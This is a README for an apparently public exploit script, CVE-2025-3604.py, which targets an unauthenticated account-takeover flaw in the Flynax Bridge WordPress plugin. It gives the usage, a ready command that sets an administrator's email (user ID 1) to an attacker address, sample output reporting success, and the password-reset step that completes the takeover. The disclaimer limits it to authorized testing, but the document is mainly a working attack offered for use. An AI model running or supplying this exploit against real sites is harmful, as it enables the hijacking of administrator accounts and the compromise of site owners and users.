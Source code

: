 
# 🚨 Flynax Bridge <= 2.2.0 - Unauthenticated Privilege Escalation via Account Takeover

## 📄 Description

The **Flynax Bridge** plugin for WordPress is vulnerable to **privilege escalation via account takeover** in all versions up to, and including, `2.2.0`.

This is due to the plugin not properly validating a user's identity prior to updating their account details (such as email). As a result, **unauthenticated attackers** can change the email address of **any user**, including **administrators**, and then initiate a **password reset** to fully take over the account.

> **CVE**: CVE-2025-3604  
> **CVSS**: 9.8 (Critical)  
> **Published**: April 23, 2025  
> **Last Updated**: April 24, 2025

---

## ⚙️ Script Output Example

```
Detected plugin version: 2.2.0
Version is vulnerable. Attempting exploit...
Exploit succeeded! Email changed to: user@admin.sa
Exploit By Nxploited (Khaled_alenazi) | https://github.com/Nxploited
```

After successful exploitation, the attacker can go to the WordPress login page and click on **"Lost your password?"** using the **newly set email** to reset the password and gain full access to the targeted account.

---

## 🚀 Usage

```
usage: CVE-2025-3604.py [-h] -u URL [-mail NEWMAIL] -id USER_ID

WordPress Flynax Bridge Unauthenticated Privilege Escalation via Account # By Nxploited (Khaled Alenazi)

options:
  -h, --help              show this help message and exit
  -u, --url URL           Target URL
  -mail, --newmail NEWMAIL
                          New email to set
  -id, --user_id USER_ID  User ID to exploit
```

---

## 🧪 Example

```
python3 CVE-2025-3604.py -u "http://TARGET/wordpress/" -id "1" -mail "attack@attacker.com"
```

### Explanation:

- `-u`: Base URL of the WordPress site.
- `-id`: ID of the user to target (typically 1 for admin).
- `-mail`: New email that will be set for that user.

---
## ⚠️ Disclaimer
 Use at your own risk. For authorized testing and educational purposes only.




### 🧑‍💻
*BY: Nxploited ( Khaled_alenazi )*
